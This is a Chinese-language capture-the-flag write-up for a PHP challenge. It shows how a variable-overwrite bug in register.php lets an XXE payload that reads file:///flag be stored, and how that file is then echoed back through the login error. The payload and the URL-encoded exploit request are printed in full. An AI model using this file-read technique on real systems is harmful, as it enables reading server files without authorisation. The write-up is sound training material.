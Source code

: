 ## ez_php


***

出题人：fmyyy

代码审计+变量覆盖+XXE

![image-20240413223039420](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413223039420.png)

register.php处存在变量覆盖

![descript](C:/Users/26272/Pictures/media/46e37e649ddbe4412c77ed7d937524c7.png)

审计代码，发现注册用户的方式是将用户信息以xml的形式存储。

在登陆处解析xml

![descript](C:/Users/26272/Pictures/media/d66c94d3270b601c2b528b014241b484.png)

存在xxe，例如利用变量覆盖写入

```html
<!DOCTYPE test [
        <!ENTITY xxe SYSTEM "file:///flag">
        ]>
<userinfo>
<user>
    <username>&xxe;</username>
    <password>123</password>
</user>
</userinfo>

```

发包

```
/register.php?username=aaa&password=aaa&user_xml_format=%3c%21%44%4f%43%54%59%50%45%20%74%65%73%74%20%5b%0a%20%20%20%20%20%20%20%20%3c%21%45%4e%54%49%54%59%20%78%78%65%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%66%6c%61%67%22%3e%0a%20%20%20%20%20%20%20%20%5d%3e%0a%3c%75%73%65%72%69%6e%66%6f%3e%0a%3c%75%73%65%72%3e%0a%20%20%20%20%3c%75%73%65%72%6e%61%6d%65%3e%26%78%78%65%3b%3c%2f%75%73%65%72%6e%61%6d%65%3e%0a%20%20%20%20%3c%70%61%73%73%77%6f%72%64%3e%31%32%33%3c%2f%70%61%73%73%77%6f%72%64%3e%0a%3c%2f%75%73%65%72%3e%0a%3c%2f%75%73%65%72%69%6e%66%6f%3e

```

这样就能写入

![descript](C:/Users/26272/Pictures/media/a5c16d0ae41902fc0ff8302fd9c4e66d.png)

如何回显呢？

注意登陆处

![descript](C:/Users/26272/Pictures/media/406f408404f905170a0e61d6d9e4ae79.png)

如果密码错误，会die出用户名，所以xxe的payload需要把username构造为读取的内容，这时候只需要一个错误的密码就行

```bash
/login.php?username=aaa&password=wrong_password

```

![descript](C:/Users/26272/Pictures/media/ffce8b41c2ad651e4b3a0030d7115dde.png)

